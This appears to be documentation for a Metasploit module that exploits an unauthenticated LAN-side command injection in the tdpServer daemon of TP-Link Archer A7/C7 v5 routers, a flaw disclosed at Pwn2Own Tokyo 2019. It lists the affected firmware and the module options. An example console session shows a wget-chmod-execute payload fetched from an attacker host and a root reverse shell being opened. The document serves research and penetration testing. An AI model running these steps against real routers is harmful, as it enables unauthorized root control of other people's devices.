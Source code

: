## Description

This module exploits a command injection vulnerability in the tdpServer daemon (/usr/bin/tdpServer), running on the router TP-Link Archer A7/C7 (AC1750), hardware version 5, MIPS Architecture, firmware version 190726.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to execute any command as root, including downloading and executing a binary from another host.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the Flashback team (Pedro Ribeiro + Radek Domanski).
This module was updated in November 2020, after a bypass was discovered for the patch TP-Link issued. The new injection technique works on older firmware too.


## Vulnerable Application

TP-Link Archer A7 (AC1750) v5 firmware version 190726
TP-Link Archer C7 (AC1750) v5 firmware version 190726

[Firmware TP-Link Archer A7](https://static.tp-link.com/2019/201908/20190827/Archer%20A7(EU)_V5_190811.zip)
[Firmware TP-Link Archer C7](https://static.tp-link.com/2019/201908/20190816/Archer%20C7(EU)_V5_190726.zip)


## Verification Steps
  Example steps in this format (is also in the PR):

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use exploits/linux/misc/tplink_archer_a7_c7_lan_rce```
  4. Set RHOST, LHOST and SRVHOST
  5. Do ```check```
  6. Do: ```run```
  7. You should get a shell.
 
## Options
```
Module options (exploit/linux/misc/tplink_archerC7_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    20002            yes       The target port (TCP)
   SRVHOST                   yes       IP address of the host serving the exploit
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/mipsbe/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

## Scenarios
~~~
msf5 > use exploits/linux/misc/tplink_archer_a7_c7_lan_rce
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set LHOST 192.168.0.238
LHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set SRVHOST 192.168.0.238
SRVHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > check 
[+] 192.168.0.1:20002 - The target is vulnerable.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > 
[*] Started reverse TCP handler on 192.168.0.238:4444 
[*] Attempting to exploit TP-Link Archer A7/C7 (AC1750) v5 (firmware 190726)
[*] Starting up our web service on http://192.168.0.238:4445 ...
[*] Using URL: http://192.168.0.238:4445/x
[*] 192.168.0.1:20002 - Connecting to the target
[*] 192.168.0.1:20002 - Sending command file byte by byte
[*] 192.168.0.1:20002 - Command: wget http://192.168.0.238:4445/x;chmod +x x;./x
[*] 192.168.0.1:20002 - [0%]= = => - - - - - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = => - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = => - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = => - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = = = = = =>[100%]
[*] 192.168.0.1:20002 - Command file sent, attempting to execute...
[+] 192.168.0.1:20002 - Sending executable to the router
[+] 192.168.0.1:20002 - Sit back and relax, Shelly will come visit soon!
[*] Command shell session 1 opened (192.168.0.238:4444 -> 192.168.0.1:48112) at 2020-03-26 16:47:09 +0100
[*] Server stopped.

msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root)
uname -a
Linux ArcherC7v5 3.3.8 #1 Mon May 20 18:53:02 CST 2019 mips GNU/Linux
~~~
